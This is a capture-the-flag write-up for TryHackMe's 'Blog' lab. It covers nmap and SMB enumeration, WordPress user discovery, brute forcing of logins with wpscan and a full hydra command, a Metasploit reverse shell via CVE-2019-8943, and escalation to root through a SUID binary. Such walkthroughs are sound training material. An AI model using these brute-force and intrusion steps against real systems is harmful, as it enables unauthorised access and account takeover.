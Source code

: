 ![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/ip1yvzT.png)
![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/618f1cc93596ff4082250bce9d869767 (1).png)

# Blog

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

*In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.*

*Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)*

**Difficulty:** Medium

## Scanning

```jsx
nmap -A -Pn -T4 10.10.250.0 -oN nmap_result.txt
```

![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_152156.png)

The inital scan shows `22`,`80`,`139`,and `445` open. We can safely assume we’re dealing with WordPress given the room icon. Since SMB is open we’ll start there to see if any shares that are configured for guest read or read write.

## SMB Enumeration

To do SMB Enumeration we can use following tools like `smbmap`, `smbclient`, Metasploit(`use auxiliary/scanner/smb/smb_enumshares`)

This  command-line tool that can be used to enumerate Samba shares on a target machine. You can use the following command to list the shares on a Samba server:

```jsx
smbmap -H 10.10.250.0
```

![Screenshot 2023-10-22 153628.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_153628.png)

## SMB File Download

```jsx
smbget -R smb://$IP/BillySMB/
```

or 

```jsx
smbclient //$IP/BillySMB
get <file_name>
```

![Screenshot 2023-10-22 154543.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_154543.png)

> Tip: If this were an FTP share you could use `wget` to recursively download files. `wget -r --no-passive ftp://(USERNAME):(PASSWORD)@(TARGET)`
> 

## Steganography

Hey, there’s a file name that looks familiar. It’s from [NinjaJc01](https://tryhackme.com/p/NinjaJc01)’s box Wonderland. Could this be a hint to not jump in the rabbit hole?

`steghide extract -sf Alice-White-Rabbit.jpg`

![Screenshot 2023-10-22 154942.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_154942.png)

I looked at the contents and started to get the hint… I’ll leave it to you to check out tswift.mp4 and check-this.png 😄️

## Wordpress

Looks like we’re dealing with a standard barebones WordPress instance. We’ll see what `wpscan` can enumerate for us but first let’s poke around a bit. From the two public posts we see Billy’s mom is a user and hovering over ‘By Karen Wheeler’ we see her username is `kwheel`.

![Screenshot 2023-10-22 155336.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_155336.png)

Scrolling down we can see a post from Billy with a username of `bjoel`. Let’s save the two usernames in a text file called `usernames.txt` that we’ll eventually use to brute force.

![Screenshot 2023-10-22 155644.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_155644.png)

## WordPress Enum.

WPScan including username enumeration

```jsx
wpscan --url http://blog.thm/ -e u
```

![Screenshot 2023-10-22 160017.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160017.png)

![Screenshot 2023-10-22 160056.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160056.png)

![Screenshot 2023-10-22 160119.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160119.png)

From the scan we confirm the two usernames we found earlier. We also now know XML-RPC is enabled so we can leverage that for brute forcing.

Also, we see this is WordPress version 5.0 which has a Path Traversal and Local File Inclusion vulnerability that could lead to an authenticated RCE vulnerability `(CVE 2019-8943)`.

## WordPress Brute Force

```jsx
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U username.txt -t 75
```

or you can use `hydra`

```jsx
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.250.0 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

![Screenshot 2023-10-22 161918.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_161918.png)

## Metasploit

I decided to use a metasploit module for the foothold. 

![Screenshot 2023-10-22 162322.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_162322.png)

![Screenshot 2023-10-22 162501.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_162501.png)

![Screenshot 2023-10-22 163031.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_163031.png)

Finally, we get the reverse shell. Now let’s find the hidden flags.

First Stabilize the shell

```jsx
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

## #user.txt

Looking for user.txt with `find / -type f -name user.txt 2>/dev/null` I can see there’s a file named user.txt in `/home/bjoel/` but after reading the file it’s not the real user flag.

```jsx
find / -type f -name user.txt 2>/dev/null
```

![Screenshot 2023-10-22 163842.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_163842.png)

## root prev.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

or

```jsx
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![Screenshot 2023-10-22 164606.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_164606.png)

So it is a root owned binary, with SUID flag on. What happens when we run it?

with the use of the `ltrace` tool, we can view their shared libraries.

> **ltrace** is a diagnostic and debugging tool for the command line that can be used to display calls that are made to shared libraries. It uses the dynamic library hooking mechanism, which allows it to intercept and record the dynamic library calls made by a process and the signals received by that process. [It can also intercept and print the system calls executed by the program](https://www.systutorials.com/docs/linux/man/1-ltrace/)
> 

![Screenshot 2023-10-22 164826.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_164826.png)

So it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?

![Screenshot 2023-10-22 165348.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_165348.png)

Now we can find the user.txt and root.txt flag! 

![Screenshot 2023-10-22 170023.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_170023.png)
